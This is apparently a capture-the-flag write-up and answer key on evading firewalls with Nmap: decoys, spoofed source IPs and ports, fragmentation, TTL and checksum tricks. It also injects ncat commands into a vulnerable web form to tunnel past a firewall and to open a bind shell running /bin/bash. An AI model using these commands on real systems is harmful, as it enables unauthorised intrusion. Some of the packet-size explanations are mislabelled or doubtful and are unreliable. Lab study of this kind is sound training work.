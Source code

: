 
# Writeup for RedTeamFirewalls

### Task 3 Evasion via Controlling the Source MAC/IP/Port

> What is the size of the IP packet when using a default Nmap stealth (SYN) scan?
Add the size of the TCP header and the IP header to find the total size of the packet. 

`24` + `20` = `44`

> How many bytes does the TCP segment hold in its data field when using a default Nmap stealth (SYN) scan?

A default SYN scan holds `0` bytes in its data field.

> Approximately, how many packets do you expect Nmap to send when running the command ```nmap -sS -F MACHINE_IP```? Approximate to the nearest 100, such as 100, 200, 300, etc.

The answer is `200` packets. -F Scans the top 100 ports and each port is expected to recieve 2 SYN packets.

> Approximately, how many packets do you expect Nmap to send when running the command nmap -sS -Pn -D RND,10.10.55.33,ME,RND -F MACHINE_IP? Approximate to the nearest 100, such as 100, 200, 300, etc.

2 packets per port (because of SYN scan) * 100 ports * 4 IPs = `800`

> What do you expect the target to see as the source of the scan when you run the command nmap -sS -Pn --proxies 10.10.13.37 MACHINE_IP

`10.10.13.37`

> What company has registered the following Organizationally Unique Identifier (OUI), i.e., the first 24 bits of a MAC address, 00:02:DC?

Lookup `00:02:DC` on https://macaddress.io/ the answer is `Fujitsu General Ltd`

> To mislead the opponent, you decided to make your port scans appear as if coming from a local access point that has the IP address 10.10.0.254. What option needs to be added to your Nmap command to spoof your address accordingly?

`-S 10.10.0.254`

> You decide to use Nmap to scan for open UDP ports. You notice that using nmap -sU -F MACHINE_IP to discover the open common UDP ports won’t give you any meaningful results. What do you need to add to your Nmap command to set the source port number to 53?

`-g 53`

### Task 4 Evasion via Forcing Fragmentation, MTU, and Data Length

> What is the size of the IP packet when running Nmap with the -f option?

`8` (fragmented TCP header) + `20` (size of data fragment) = `28`

> What is the maximum size of the IP packet when running Nmap with the -ff option?

`16` (fragmented TCP header) + `20` (size of data fragment) = `36`

> What is the maximum size of the IP packet when running Nmap with --mtu 36 option?

`36` (fragmented TCP header) + `20` (size of data fragment) = `56`
 
> What is the maximum size of the IP packet when running Nmap with --data-length 128 option?

`128` (fragmented TCP header) + `20` (size of data fragment) = `148`

### Task 5 Evasion via Modifying Header Fields

> Scan the attached MS Windows machine using --ttl 2 option. How many ports appear to be open?

`3`

> Scan the attached MS Windows machine using the --badsum option. How many ports appear to be open?

`0`

> Using this simple technique, discover which port number is reachable from the protected system.

`nc -lvnp 1025` on Attacker Machine, `nc AttkIP 21` on target machine.

Answer is `21`

> We have a web server listening on the HTTP port, 80. The firewall is blocking traffic to port 80 from the untrusted network; however, we have discovered that traffic to TCP port 8008 is not blocked. We’re continuing to use the web-form from Task 6 to set up the ncat listener that forwards the packets received to the forwarded port. Using port tunneling, browse to the web server and retrieve the flag.

1. On the vulnerable web form, execute `ncat -lvnp 8008 -c "ncat localhost 80"`
2. On the Attack Machine, execute `nc 10.10.175.124 8008`
3. Perform a `GET /` request from the netcat terminal on the Attack Machine to the Target to display the flag.

### Task 8

> We’re continuing to use the web-form from Task 6 to set up the ncat listener. Knowing that the firewall does not block packets to destination port 8081, use ncat to listen for incoming connections and execute Bash shell. Use the AttackBox to connect to the listening shell. What is the user name associated with which you are logged in?

1. On the vulnerable web form, execute `ncat -lvnp 8081 -e /bin/bash`
2. On the Attack Machine, execute `ncat 10.10.175.124 8081`
3. Execute `whoami` on the netcat terminal on the attack machine to get the username

### Task 9

> What is the number of the highest OSI layer that an NGFW can process?

`7`
